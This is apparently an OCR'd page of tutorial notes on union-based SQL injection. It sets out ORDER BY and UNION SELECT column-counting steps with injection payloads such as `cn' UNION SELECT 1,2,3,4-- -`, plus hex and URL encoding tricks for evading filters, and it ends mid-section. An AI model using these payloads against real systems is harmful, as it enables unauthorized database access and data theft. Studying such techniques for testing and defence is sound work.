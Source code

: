 ## Error Prevention

|Issue|Solution|Example|
|---|---|---|
|String Quotes|Use hex encoding|`0x6461746162617365` instead of 'database'|
|Special Characters|URL encoding|`%20` for space, `%27` for single quote|
|Comment Blocks|Multiple comment styles|`--`, `#`, `/**/`|
# SQL Union Injection Detection and Exploitation

## Overview

A Union-based SQL injection becomes possible when we can manipulate a query to combine its results with those of another query using the UNION operator. This technique is particularly effective when we can see the query results on the page.

## Detection Methods Comparison

|Method|Approach|Success Indicator|Failure Indicator|Key Characteristics|
|---|---|---|---|---|
|ORDER BY|Start with `ORDER BY 1` and increment until failure|Normal results with different sorting|Error message or no output|Always returns results until hitting the column limit|
|UNION|Try `UNION SELECT` with different numbers of columns|Success when column numbers match|Error about column count mismatch|Returns errors until hitting correct column count|

## ORDER BY Method Steps

|Step|Query Example|Expected Outcome|Interpretation|
|---|---|---|---|
|Initial Test|`' ORDER BY 1-- -`|Normal results|At least 1 column exists|
|Secondary Test|`' ORDER BY 2-- -`|Normal results with different sorting|At least 2 columns exist|
|Continue Testing|`' ORDER BY n-- -`|Normal results until error|Keep incrementing until error|
|Final Test|`' ORDER BY 5-- -`|Error message|Table has (n-1) columns where n caused the first error|

## UNION Method Steps

|Step|Query Example|Expected Outcome|Interpretation|
|---|---|---|---|
|Initial Attempt|`cn' UNION SELECT 1,2,3-- -`|Error: column count mismatch|Wrong number of columns|
|Adjustment|`cn' UNION SELECT 1,2,3,4-- -`|Successful results|Correct number of columns found|
|Verification|Check which numbers appear in output|Only certain numbers visible|Identifies injectable columns|

## Column Output Visibility
